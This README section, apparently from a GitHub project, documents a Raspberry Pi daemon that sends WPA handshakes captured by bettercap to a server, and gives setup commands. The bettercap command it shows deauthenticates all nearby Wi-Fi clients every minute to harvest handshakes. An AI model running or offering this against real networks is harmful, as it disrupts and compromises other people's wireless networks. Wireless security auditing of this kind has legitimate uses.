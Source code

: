 The Raspberry Pi component is designed to **send network captures performed by `bettercap` to the server**. Its functionality is straightforward: you run the `bettercap` daemon on the Raspberry Pi, and it automatically transmits captured handshakes to the server whenever your local Wi-Fi SSID is detected nearby.

> [!NOTE]  
> This feature is **disabled** if the `TEST` environment variable is set to `False`. Ensure that your Raspberry Pi has at least **two network interfaces**, with one interface always connected to a stable network.

> **Tested on Raspberry Pi 5 Model B Rev. 2**

> [!TIP]  
> Update the `wlan1` interface to match your network interface. Make sure your Wi-Fi card supports **monitor mode** and **packet injection**.

---

## **What Does the Daemon Do?**

The daemon performs the following tasks:

1. Acts as a **TCP/IP client** to establish raw network connections.
2. Scans all `.PCAP` files located in the `~/handshakes` directory (typically where `bettercap` saves handshakes).
3. Utilizes the **`gopacket`** library to read `.PCAP` file layers, extracting **BSSID** and **SSID** information, and verifying if a **valid 4-way handshake** exists.
4. If a valid handshake is detected, the daemon **encodes the file in Base64** and sends it to the server.
5. Waits for a predefined **delay period** before repeating the process.

---

## **Run Bettercap**

This configuration sets up `bettercap` to capture handshakes and save them in the correct directory.

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```

> [!WARNING]  
> The daemon uses the `HOME` directory as its base. Since `bettercap` requires `sudo`, you must run the daemon as `root`.

---

## **Other Useful Bettercap Commands**

These commands can help you fine-tune your `bettercap` setup:

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
wifi.recon.channel N; # N is the channel to recon
```

---

## **Compile and Run the Daemon**

Make sure the following requirements are met before building and running the daemon:

> [!IMPORTANT]  
> The daemon requires `libpcap0.8-dev` to be installed on your system, even if you're using compiled binaries from releases.

```bash
sudo apt update -y && \
sudo apt install -y libpcap0.8-dev
```

> [!IMPORTANT]  
> The file `/etc/machine-id` must exist on your machine.

1. **Compile daemon with**

```bash
cd raspberry-pi
make build
```

2. **Run with**

```bash
./build/daemon run
```

3. Insert your credentials

But remember to export these env var first, change them according to your needs

```bash
export SERVER_HOST=localhost
export SERVER_PORT=4747
export TCP_ADDRESS=localhost
export TCP_PORT=4749
export TEST=False
export HOME_WIFI=Vodafone-A60818803 # Change with your SSID of your home Wireless Network
export BETTERCAP=True
```